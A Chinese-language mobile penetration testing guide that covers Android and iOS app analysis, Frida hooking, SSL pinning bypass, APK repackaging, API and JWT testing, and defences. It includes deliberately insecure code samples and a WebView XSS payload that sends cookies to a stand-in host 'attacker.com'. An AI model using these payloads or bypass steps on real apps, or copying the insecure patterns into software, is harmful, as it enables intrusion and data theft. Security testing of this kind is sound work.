

# 移动端安全渗透测试

> 从APK反编译到iOS越狱检测，全面覆盖移动应用安全测试

---

## 一、移动安全基础

### 1.1 OWASP Mobile Top 10

| 排名 | 漏洞类型 | 描述 |
|:----|:---------|:-----|
| M1 | 滥用平台功能 | 平台API/权限滥用 |
| M2 | 数据存储不安全 | 本地明文存储/SQLite |
| M3 | 通信不安全 | HTTP/弱TLS/证书校验不足 |
| M4 | 认证绕过 | 本地认证/生物识别绕过 |
| M5 | 加密不足 | 硬编码密钥/弱算法 |
| M6 | 授权缺陷 | 客户端授权/IDOR |
| M7 | 代码质量差 | 缓冲区溢出/内存泄漏 |
| M8 | 代码篡改 | 二次打包/运行时篡改 |
| M9 | 逆向工程 | 缺乏混淆/反调试 |
| M10 | 敏感数据泄露 | 日志输出/剪贴板 |

### 1.2 移动应用架构



---

## 二、Android安全测试

### 2.1 测试环境搭建

```bash
# 工具安装
# ADB
apt install adb
# Android Studio
# APKTool
apt install apktool
# JADX
apt install jadx
# Frida
pip install frida-tools
# Objection
pip install objection

# 设备准备
# 1. 开启开发者模式
# 2. 开启USB调试
# 3. 模拟器(Genymotion/AVD)
# 4. Root设备/Magisk

# ADB常用命令
adb devices                         # 列出设备
adb shell                           # Shell
adb install app.apk                # 安装
adb uninstall com.example.app      # 卸载
adb pull /data/data/com.example/   # 拉取数据
adb push file /sdcard/             # 推送文件
adb logcat | grep "TAG"            # 日志
```

### 2.2 APK反编译与静态分析

```bash
# APK解包
apktool d app.apk -o output/
# output/AndroidManifest.xml
# output/smali/
# output/res/
# output/lib/

# 反编译为Java
jadx-gui app.apk
jadx app.apk -d output_java/

# DEX转JAR
d2j-dex2jar app.apk -o app.jar

# 查看证书
keytool -printcert -jarfile app.apk

# 查看manifest
aapt dump badging app.apk
```

#### AndroidManifest.xml分析

```xml
<!-- 关键检查点 -->
<manifest>
    <!-- 权限检查 -->
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    <uses-permission android:name="android.permission.CAMERA"/>
    <uses-permission android:name="android.permission.READ_SMS"/>
    <uses-permission android:name="android.permission.RECORD_AUDIO"/>
    
    <!-- 备份标志 -->
    <application android:allowBackup="true">
        <!-- 危险: backup可通过adb提取所有数据 -->
    </application>
    
    <!-- 调试模式 -->
    <application android:debuggable="true">
        <!-- 危险: 可调试应用 -->
    </application>
    
    <!-- 组件导出 -->
    <activity android:exported="true">
        <!-- 其他应用可启动此Activity -->
    </activity>
    
    <content-provider android:exported="true">
        <!-- 数据泄露风险 -->
    </content-provider>
</manifest>
```

### 2.3 静态分析检查清单

```java
// 1. 敏感信息硬编码
String apiKey = "AIzaSyDsADFASDFASDFASDFASDF";
String secret = "my_secret_key_123";
String password = "password";

// 2. 弱加密算法
Cipher cipher = Cipher.getInstance("DES");  // ❌ 弱
Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");  // ✅

// 3. 证书校验绕过
TrustManager[] trustAll = new TrustManager[] {
    new X509TrustManager() {
        public void checkClientTrusted(X509Certificate[] chain, String authType) {}
        public void checkServerTrusted(X509Certificate[] chain, String authType) {}
        public X509Certificate[] getAcceptedIssuers() { return new X509Certificate[0]; }
    }
};  // ❌ 信任所有证书

// 4. WebView设置
webView.setJavaScriptEnabled(true);
webView.addJavascriptInterface(new Bridge(), "bridge");  // ❌ JS桥接
webView.setAllowFileAccess(true);
webView.setAllowContentAccess(true);

// 5. Log输出
Log.d("TAG", "用户密码: " + password);  // ❌ 敏感日志

// 6. SQLite明文存储
db.execSQL("CREATE TABLE users (username TEXT, password TEXT)");
db.execSQL("INSERT INTO users VALUES('admin', 'password123')");  // ❌ 明文密码

// 7. SharedPreferences
SharedPreferences sp = getSharedPreferences("user", MODE_PRIVATE);
sp.edit().putString("token", "secret_token").apply();  // ❌ 明文存储

// 8. Intent Scheme
Intent intent = getIntent();
Uri data = intent.getData();
if (data != null) startActivity(new Intent(Intent.ACTION_VIEW, data));  // ❌ Intent劫持
```

### 2.4 动态分析

```bash
# 1. Frida Hook
# 安装Frida
pip install frida-tools
# 推送frida-server
adb push frida-server-xx.x-android-arm64 /data/local/tmp/

# 运行frida-server
adb shell /data/local/tmp/frida-server &

# Hook函数
frida -U -l hook.js com.example.app

# hook.js 示例
Java.perform(function() {
    // Hook AES加密
    var Cipher = Java.use('javax.crypto.Cipher');
    Cipher.doFinal.overload('[B').implementation = function(input) {
        send('Cipher.doFinal called');
        send(bytesToHex(input));
        return this.doFinal(input);
    };
    
    // Hook URLConnection
    var URL = Java.use('java.net.URL');
    URL.openConnection.implementation = function() {
        send('URL: ' + this.toString());
        return this.openConnection();
    };
    
    // Hook SQLite
    var SQLiteDatabase = Java.use('android.database.sqlite.SQLiteDatabase');
    SQLiteDatabase.rawQuery.overload('java.lang.String', '[Ljava.lang.String;').implementation = function(sql, args) {
        send('SQL: ' + sql);
        return this.rawQuery(sql, args);
    };
});

# 2. Objection (Frida GUI)
objection -g com.example.app explore
# 常用命令
android hooking list classes
android hooking list class_methods com.example.app.MainActivity
android hooking watch class_method com.example.app.MainActivity.login --dump-args --dump-return
android sslpinning disable
android root disable

# 3. Drozer
drozer console connect
run app.package.info -a com.example.app
run app.activity.info -a com.example.app
run app.provider.info -a com.example.app
run scanner.provider.finduris -a com.example.app
run scanner.provider.injection -a com.example.app
```

### 2.5 网络通信测试

```bash
# 1. Burp Suite代理设置
# Android 7+ 需添加用户证书到系统证书
# 使用Magisk模块 "Move Certificates"

# 2. 代理配置
adb shell settings put global http_proxy 192.168.1.100:8080

# 3. 证书固定绕过
# Frida绕过
objection -g com.example.app explore
android sslpinning disable

# 4. 抓包HTTP/HTTPS
# 使用Burp/Charles/mitmproxy
mitmproxy -p 8080
```

### 2.6 本地存储检查

```bash
# 1. SharedPreferences
adb shell run-as com.example.app cat /data/data/com.example.app/shared_prefs/*.xml

# 2. SQLite数据库
adb shell run-as com.example.app
cd databases
sqlite3 app.db
.tables
SELECT * FROM users;

# 3. 文件存储
adb shell run-as com.example.app ls /data/data/com.example.app/files/
adb shell run-as com.example.app cat /data/data/com.example.app/files/secret.txt

# 4. 密钥库
adb shell run-as com.example.app ls /data/data/com.example.app/app_keystore/

# 5. 缓存
adb shell run-as com.example.app ls /data/data/com.example.app/cache/
```

### 2.7 二次打包与篡改

```bash
# 1. 解包
apktool d app.apk -o modified/

# 2. 修改Smali代码
# 例如: 移除认证检查
# 查找方法签名
grep -r "login\|authenticate\|verify" modified/smali/

# 3. 重新打包
apktool b modified/ -o modified.apk

# 4. 签名
# 生成密钥
keytool -genkey -v -keystore debug.keystore -alias debug -keyalg RSA -keysize 2048 -validity 10000
# 签名
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore debug.keystore modified.apk debug

# 5. 安装
adb install modified.apk
```

---

## 三、iOS安全测试

### 3.1 测试环境

```bash
# 越狱设备或检查器
# 工具安装
# - Theos (越狱开发)
# - Frida
# - Objection
# - Cycript
# - class-dump

# 非越狱测试
# - iOS App Signer (重签名)
# - Cydia Impactor (安装)
# - iOS 17+ 开发者模式

# SSH到越狱设备
ssh root@192.168.1.101
# 默认密码: alpine
```

### 3.2 IPA反编译

```bash
# 1. 解压IPA
unzip app.ipa -d output/
# output/Payload/App.app/
# output/Payload/App.app/App (Mach-O二进制)

# 2. 查看二进制信息
file Payload/App.app/App
otool -L Payload/App.app/App    # 依赖库
otool -h Payload/App.app/App     # 头部信息
otool -l Payload/App.app/App     # Load commands

# 3. 字符串提取
strings Payload/App.app/App | grep -i "password\|api_key\|secret\|token"
strings Payload/App.app/App | grep -i "http\|https"
strings Payload/App.app/App | grep -i "key\|aes\|rsa\|encrypt"

# 4. class-dump (Objective-C)
class-dump -H Payload/App.app/App -o headers/

# 5. Hopper/IDA (反汇编)
# 分析Mach-O二进制

# 6. IPA信息
# Info.plist
cat Payload/App.app/Info.plist | plutil -convert xml1 - -o -
```

### 3.3 iOS静态分析

```objectivec
// 1. NSUserDefaults明文存储
NSUserDefaults *defaults = [NSUserDefaults standardUserDefaults];
[defaults setObject:@"secret_token" forKey:@"token"];  // ❌ 明文

// 2. Keychain使用不当
SecItemAdd((__bridge CFDictionaryRef)@{...});  // kSecAttrAccessible=Always

// 3. 弱加密
NSData *data = [password dataUsingEncoding:NSUTF8StringEncoding];
NSString *encoded = [data base64EncodedStringWithOptions:0];  // ❌ 仅Base64

// 4. NSURLConnection证书绕过
- (BOOL)connection:(NSURLConnection *)connection canAuthenticateAgainstProtectionSpace:(NSURLProtectionSpace *)protectionSpace {
    return YES;
}
- (void)connection:(NSURLConnection *)connection didReceiveAuthenticationChallenge:(NSURLAuthenticationChallenge *)challenge {
    [challenge.sender useCredential:[NSURLCredential credentialForTrust:challenge.protectionSpace.serverTrust] forAuthenticationChallenge:challenge];
}  // ❌ 信任所有证书

// 5. UIWebView (vs WKWebView)
UIWebView *webView = [[UIWebView alloc] init];
[webView loadHTMLString:html baseURL:nil];  // ❌ 旧版WebView

// 6. 越狱检测绕过
// 常见检测方法
if ([[NSFileManager defaultManager] fileExistsAtPath:@"/Applications/Cydia.app"]) { }
if (access("/private/var/lib/dpkg", F_OK) == 0) { }
```

### 3.4 iOS动态分析

```bash
# 1. Frida
frida -U -l hook.js AppName

# 2. Objection
objection -g AppName explore
ios hooking list classes
ios hooking watch class AppDelegate --dump-args

# 3. Cycript
cycript -p AppName
// 查看UI
[[UIApp keyWindow] recursiveDescription]
// 查看变量
[[NSUserDefaults standardUserDefaults] dictionaryRepresentation]

# 4. SSH + lldb
# 远程调试
debugserver 0.0.0.0:1234 /var/containers/Bundle/Application/.../App.app/App

# 5. 网络抓包
# 使用Burp/RVIZ (Remote Virtual Interface)
# 设置代理
networksetup -setwebproxy Wi-Fi 192.168.1.100 8080
# RVIZ
rvictl -s <UDID>
```

### 3.5 Keychain分析

```bash
# 越狱设备查看Keychain
# 1. Dump keychain
python2 keychain_dumper.py -a

# 2. Keychain分析
keychain_dumper

# 3. 使用Cycript查看
cycript -p AppName
[[NSUserDefaults standardUserDefaults] dictionaryRepresentation]
[NSData dataWithBytes:"test" length:4]

# 4. Keychain数据示例
# Generic: com.apple.sbd3
# Account: user@example.com  
# Service: com.example.app
# Data: password123
```

---

## 四、API安全测试

### 4.1 常见API漏洞

| 漏洞 | 描述 | 检测方法 |
|:-----|:-----|:---------|
| 认证绕过 | 修改请求参数绕过 | Burp修改参数 |
| IDOR | 遍历用户ID | 修改user_id参数 |
| 速率限制 | 无请求频率限制 | 批量爆破 |
| 注入 | SQL/NoSQL/命令注入 | 注入测试 |
| 批量分配 | 额外参数赋值 | 发送未预期参数 |
| 不安全直接对象引用 | 访问其他用户数据 | 修改对象ID |

### 4.2 API测试

```bash
# 1. 拦截API请求
# Burp/Charles/Fiddler代理

# 2. 参数篡改
# 修改user_id, token, session_id等

# 3. 重放攻击
# Repeater/Burp Intruder

# 4. 越权测试
# 使用低权限用户token访问高权限API

# 5. 批量赋值
POST /api/register
{"username":"test","password":"test","is_admin":true}

# 6. GraphQL测试
# 内省查询
query { __schema { types { name fields { name } } } }
# 批量查询
query { user1: user(id:1) { email } user2: user(id:2) { email } }
```

### 4.3 Token安全检查

```bash
# 1. JWT分析
# 解码payload
jwt-decoder "eyJhbGciOiJIUzI1NiJ9..."
# 修改算法为none
# 弱密钥测试
hashcat -m 16500 jwt.txt wordlist.txt

# 2. OAuth检查
# 重定向URI遍历
# CSRF无state参数
# Token泄露
```

---

## 五、WebView安全

### 5.1 Android WebView

```java
// 不安全配置
WebView webView = (WebView) findViewById(R.id.webview);
webView.getSettings().setJavaScriptEnabled(true);           // ❌
webView.getSettings().setAllowFileAccess(true);              // ❌
webView.getSettings().setAllowContentAccess(true);           // ❌
webView.getSettings().setAllowFileAccessFromFileURLs(true);  // ❌
webView.getSettings().setAllowUniversalAccessFromFileURLs(true); // ❌

// JS桥接 (危险)
webView.addJavascriptInterface(new Object() {
    @JavascriptInterface
    public String getSecret() {
        return "secret_data";  // ❌ 暴露敏感数据
    }
}, "bridge");

// 加载任意URL
webView.loadUrl(intent.getStringExtra("url"));  // ❌ URL注入
```

### 5.2 iOS WebView

```objectivec
// UIWebView (已废弃, 不安全)
UIWebView *webView = [[UIWebView alloc] init];
webView.scalesPageToFit = YES;
[webView loadRequest:[NSURLRequest requestWithURL:[NSURL URLWithString:url]]];

// WKWebView (较安全)
WKWebViewConfiguration *config = [[WKWebViewConfiguration alloc] init];
config.preferences.javaScriptEnabled = YES;
WKWebView *webView = [[WKWebView alloc] initWithFrame:CGRectZero configuration:config];
```

### 5.3 WebView攻击

```html
<!-- XSS in WebView -->
<script>
    // 访问Android桥接
    window.bridge.getSecret();
    
    // 访问本地文件
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'file:///data/data/com.example.app/databases/app.db', false);
    xhr.send();
    
    // Cookie窃取
    document.location = 'http://attacker.com/?cookie=' + document.cookie;
</script>
```

---

## 六、敏感数据泄露

### 6.1 日志泄露

```bash
# Android logcat
adb logcat | grep "password\|token\|secret"
adb logcat -s "TAG"  # 过滤特定Tag

# iOS日志
idevicesyslog | grep "password"
```

### 6.2 剪贴板泄露

```java
// ❌ 敏感数据复制到剪贴板
ClipboardManager clipboard = (ClipboardManager) getSystemService(CLIPBOARD_SERVICE);
ClipData clip = ClipData.newPlainText("label", "password123");
clipboard.setPrimaryClip(clip);
```

### 6.3 截屏/屏幕录制

```java
// ❌ 允许截屏
getWindow().setFlags(WindowManager.LayoutParams.FLAG_SECURE, 
                     WindowManager.LayoutParams.FLAG_SECURE);  // 阻止截屏
```

### 6.4 第三方/分析SDK

```java
// ❌ 敏感数据传给分析SDK
Analytics.track("payment", "credit_card", "4111111111111111");
Mixpanel.getInstance().track("user_event", new JSONObject()
    .put("token", "user_token"));
```

---

## 七、认证与授权

### 7.1 本地认证绕过

```java
// ❌ 仅客户端验证
public boolean checkPassword(String input) {
    return input.equals("password123");  // 硬编码密码
}

// ❌ 生物识别绕过
BiometricPrompt.PromptInfo promptInfo = new BiometricPrompt.PromptInfo.Builder()
    .setDeviceCredentialAllowed(true)  // ❌ 允许设备凭据作为备选
    .build();
```

### 7.2 Token管理

```java
// ❌ Token固定/不失效
String token = "static_token_123";
sharedPrefs.edit().putString("token", token).apply();

// ❌ 长有效期
// 应该设置短期token + refresh token
```

---

## 八、第三方库/依赖安全

### 8.1 常见风险SDK

| SDK | 风险 |
|:----|:-----|
| 推送SDK | 通知劫持/数据泄露 |
| 广告SDK | 隐私收集/恶意广告 |
| 分析SDK | 敏感数据外传 |
| 社交登录SDK | Token泄露 |
| 支付SDK | 中间人攻击 |

### 8.2 依赖检查

```bash
# Android
./gradlew dependencies
./gradlew dependencyCheckAnalyze

# CocoaPods
pod outdated

# SPM
swift package show-dependencies

# 检查已知漏洞
npm audit (前端依赖)
owasp dependency-check
```

---

## 九、自动化测试框架

### 9.1 MobSF (Mobile Security Framework)

```bash
# 安装
git clone https://github.com/MobSF/Mobile-Security-Framework-MobSF
cd Mobile-Security-Framework-MobSF
./setup.sh

# 运行
./run.sh  # http://localhost:8000

# 上传APK/IPA进行分析
# 自动：静态分析 + 动态分析
```

### 9.2 QARK (Quick Android Review Kit)

```bash
# 安装
pip install qark

# 运行
qark --apk app.apk
qark --source path/to/source
```

### 9.3 Needle (iOS)

```bash
# https://github.com/FSecureLABS/needle
git clone https://github.com/FSecureLABS/needle
cd needle
./needle.py
```

### 9.4 Docker安全测试环境

```dockerfile
# Dockerfile
FROM ubuntu:20.04

RUN apt-get update && apt-get install -y \
    adb \
    apktool \
    jadx \
    python3-pip \
    && pip install frida-tools objection mobsf

CMD ["/bin/bash"]
```

---

## 十、防御措施

### 10.1 代码混淆

```bash
# Android ProGuard
# proguard-rules.pro
-keep class com.example.app.** { *; }  # 自定义混淆
-keepattributes Signature
-keepattributes *Annotation*
-keep class com.google.gson.** { *; }

# DexGuard (商业)
# 字符串加密
# 反射混淆
# 资源混淆

# iOS混淆
# - Obj-C: 代码混淆(不推荐)
# - Swift: 编译器优化
# - 自定义混淆工具
```

### 10.2 反逆向工程

```java
// Root检测
public boolean isRooted() {
    String[] paths = {
        "/system/app/Superuser.apk",
        "/sbin/su",
        "/system/bin/su",
        "/system/xbin/su",
        "/data/local/xbin/su",
        "/data/local/bin/su",
        "/system/sd/xbin/su",
        "/system/bin/failsafe/su",
        "/data/local/su"
    };
    for (String path : paths) {
        if (new File(path).exists()) return true;
    }
    return false;
}

// 反调试
public void antiDebug() {
    if (Debug.isDebuggerConnected()) {
        System.exit(0);
    }
}
```

### 10.3 安全通信

```java
// 证书固定
CertificatePinner pinner = new CertificatePinner.Builder()
    .add("api.example.com", "sha256/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=")
    .build();

OkHttpClient client = new OkHttpClient.Builder()
    .certificatePinner(pinner)
    .build();
```

---

## 十一、合规性检查

### 11.1 GDPR/CCPA

- 数据收集权限最小化
- 隐私政策明确
- 用户数据删除功能

### 11.2 PCI DSS

- 不存储CVV
- Token化支付信息
- 加密传输

---

## 十二、速查总表

### 12.1 工具速查

| 工具 | 用途 | 平台 |
|:-----|:-----|:-----|
| ADB | Android调试 | 跨平台 |
| APKTool | APK解包 | 跨平台 |
| JADX | Java反编译 | 跨平台 |
| Frida | 动态注入 | 跨平台 |
| Objection | 移动安全测试 | 跨平台 |
| MobSF | 自动化分析 | 跨平台 |
| Burp Suite | 网络抓包 | 跨平台 |
| class-dump | iOS头文件导出 | macOS |
| Hopper | 反汇编 | macOS |
| Cycript | iOS动态注入 | iOS |

### 12.2 快速检查清单

```
□ 反编译APK/IPA检查硬编码密钥
□ 检查AndroidManifest.xml权限
□ 检查Info.plist敏感权限
□ 代理抓包测试API安全
□ 测试认证绕过
□ 测试越权访问(IDOR)
□ 检查本地存储加密
□ 检查日志输出
□ 测试WebView XSS
□ 检查第三方SDK
□ 测试证书固定
□ 测试二次打包
□ 检查混淆程度
□ 测试Root/越狱检测
□ 检查剪贴板泄露
□ 检查截屏防护
```

### 12.3 推荐资源

| 资源 | 链接 |
|:-----|:-----|
| OWASP Mobile Security | mobile-security.owasp.org |
| MSTG | github.com/OWASP/owasp-mstg |
| MobSF | github.com/MobSF/Mobile-Security-Framework-MobSF |
| Frida | frida.re |
| Objection | github.com/sensepost/objection |

---

> **参考资源**
>
> - OWASP Mobile Security Testing Guide
> - OWASP Mobile Top 10
> - Android Security Documentation
> - iOS Security Guide
> - Frida Documentation
